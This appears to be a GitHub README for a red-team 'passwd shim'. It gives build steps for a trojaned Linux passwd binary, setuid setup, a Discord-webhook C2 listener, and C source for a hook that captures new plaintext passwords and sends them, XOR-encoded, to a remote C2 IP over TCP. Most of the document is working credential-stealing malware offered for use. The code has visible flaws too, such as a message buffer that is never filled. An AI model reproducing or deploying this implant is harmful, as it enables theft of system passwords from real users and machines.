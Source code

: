 # Retriever Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.
<br/><br/>
<br/><br/>
## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. `clone shadow git`
2. `run ./generate.sh`
3. `sudo chmod 4755 passwd`

#### Debian - 11
1. `clone shadow git`
2. `run ./generate.sh`
3. `sudo chmod 4755 passwd`

#### CentOS - 8
1. `clone shadow git`
2. `yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install`
3. `yum install -y autoconf gettext-devel automake`
4. `dnf group install "Development Tools"`
5. `run ./autogen.sh --without-selinux`
6. `Add Hook (See Hooking passwd.c)`
7. `sudo make all`
6. `sudo chmod 4755 passwd`

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to
<br/><br/>
<br/><br/>
## Using the Python C2
### .env File

The python C2 expects a .env file to provide both the XOR key as well as a discord webhook to send the credentials to. The two values that the program searches for are "WEBHOOK" and "XOR_KEY". Set these values to their desired value and the program should run with those settings. The default for the XOR_KEY is "bingus" and the default webhook is empty. 

#### .env Values

- WEBHOOK : Set the Discord Webhook (Default : none)
- XOR_KEY : The key used to encrypt and decrypy (Default : bingus) 
- PORT    : Set the port the program listens on (Default : 8000)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py
<br/><br/>
<br/><br/>
## Hooking the passwd.c File

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface */
		strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		//SNPRINT
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message */
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , strlen(xor_message) , 0); 
		
		return 0;

	}
